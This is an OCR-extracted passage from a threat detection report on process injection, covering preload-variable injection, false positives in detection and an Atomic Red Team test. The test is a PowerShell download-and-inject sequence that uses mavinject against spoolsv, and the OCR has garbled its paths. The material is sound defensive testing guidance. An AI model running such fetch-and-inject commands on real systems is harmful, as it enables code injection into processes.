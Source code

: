 On macOS, modifying the DYLD\_INSERT\_LIBRARIES environment variable may allow injection.
 
On Linux systems, modifying the etcld.so.preload file or the environment variables LD\_PRELOAD or 
LD\_LIBRARY\_PATH may allow injection.
2020 Threat Detection Report
11
Weeding out false positives
The analytics that produced the most false positives came from looking for CreateRemoteThread calls from any and all 
processes. Many tools in Windows use Process Injection legitimately for debugging and virtualization. If you want to write 
analytics around this API call, focus them on unusual source processes, such as Microsoft Office products and tools that 
commonly deliver first\-stage malware like scripts and Mshta.
Testing
Start testing your defenses against Process Injection using Atomic Red Teaman open source testing framework of small, 
highly portable detection tests mapped to MITRE ATT\&CK.Getting started
View Atomic tests for T1055: Process Injection. In most environments, these should be sufficient to generate a useful 
signal for defenders.Run this test on a Windows system using PowerShell:
Invoke\-WebRequest https:
github.comredcanarycoatomic\-red\-teamrawmaster
atomicsT1055srcx64T1055\.dll \-OutFile $env:TEMPT1055\.dll
$mypid \= (get\-process spoolsv)
.id
mavinject $mypid INJECTRUNNING $env:
TEMPT1055\.dll
2020 Threat Detection Report
12
Useful telemetry will include:
DATA SOURCE
TELEMETRY
Process monitoring
powershell.exe, mavinject.exe
DLL monitoring
T1055\.dll
API monitoring
VirtualAllocEx, WriteProcessMemory, CreateRemoteThread
Review and repeat
Now that you have executed one or several common tests and checked for the expected results, its useful to answer some 
immediate questions:
Repeat this process, performing additional tests related to this technique. You can also create and contribute tests 
of your own.
 
Were any of your actions detected?
 
Were any of your actions blocked or prevented?
 
Were your actions visible in logs or other defensive telemetry?
DETECTIO NS TRATEGIST
The detection strategies in this section were 
brought to you by Jason Killam, who works on 
Red Canarys Cyber Incident Response Team 
(CIRT) as a detection engineer. Prior to that, 
Jason worked as an incident responder for 
security teams in the financial sector.
Jason Killam
DETECTIO NE NGINEER
2020 Threat Detection Report
13
Scheduled TaskScheduled Task is another technique that owes its prominence largely to TrickBot, which schedules tasks to launch 